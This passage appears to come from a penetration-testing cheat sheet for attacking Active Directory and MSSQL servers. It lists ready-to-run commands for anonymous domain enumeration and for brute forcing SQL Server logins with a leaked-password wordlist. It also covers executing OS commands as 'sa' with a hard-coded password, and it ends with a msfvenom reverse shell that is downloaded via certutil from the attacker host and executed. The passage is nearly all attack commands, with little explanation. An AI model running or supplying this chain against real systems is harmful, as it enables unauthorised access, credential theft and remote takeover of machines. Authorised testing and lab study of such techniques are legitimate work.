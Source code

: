 ### 2.3 Get current domain and basic AD info from Linux
```bash
# Check domain name anonymously via SMB
crackmapexec smb <target_ip> -d '' -u '' -p ''

# Enumerate SIDs anonymously (Impacket)
impacket-lookupsid -no-pass <target_ip>

# Anonymous LDAP query for domain info
ldapsearch -H ldap://<target_ip> -x -b "" -s base "(objectclass=*)"

# Collect AD data with BloodHound (anonymous)
bloodhound-python -u '' -p '' -d <domain> -c All <target_ip> 
```

## 3. Brute Forcing and Credential Attacks
### 3.1 SQL Server Brute Force
```bash
# Nmap Brute Force with ms-sql-brute:
nmap -p1433 --script ms-sql-brute --script-args "userdb=users.txt,passdb=/usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt" 192.168.0.147

# Hydra for MSSQL:
hydra -L users.txt -P /usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt 192.168.0.147 mssql

# CrackMapExec for MSSQL Brute Force:
crackmapexec mssql 192.168.0.147 --local-auth -u users.txt -p /usr/share/wordlists/seclists/Passwords/darkweb2017-top10000.txt
```

## 4. Code Execution and Foothold Establishment
### 4.1 Command Execution via CrackMapExec
```bash
# Enumerating Local Users:
crackmapexec mssql 192.168.0.147 --local-auth -u sa -p PE#5GZ29PTZMSE -x "net user"

# Enumerating Domain Users:
crackmapexec mssql 192.168.0.147 --local-auth -u sa -p PE#5GZ29PTZMSE -x "net user /dom"

# Basic OS Command Execution:
crackmapexec mssql 192.168.0.147 --local-auth -u sa -p PE#5GZ29PTZMSE -x "ipconfig"
crackmapexec mssql 192.168.0.147 --local-auth -u sa -p PE#5GZ29PTZMSE -x "hostname"
crackmapexec mssql 192.168.0.147 --local-auth -u sa -p PE#5GZ29PTZMSE -x "whoami"
```

### 4.2 Reverse Shell and File Transfer
```bash
# Generating a Reverse Shell Executable with msfvenom:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.101 LPORT=8443 -f exe > Shell.exe

# Starting a Python HTTP Server:
python3 -m http.server 80

# Downloading the Reverse Shell on the Target:
crackmapexec mssql 192.168.0.147 --local-auth -u sa -p PE#5GZ29PTZMSE -x "certutil -urlcache -f http://192.168.0.101/Shell.exe C:\Users\Public\Shell.exe"

# Executing the Reverse Shell:
crackmapexec mssql 192.168.0.147 --local-auth -u sa -p PE#5GZ29PTZMSE -x "C:\Users\Public\Shell.exe"
```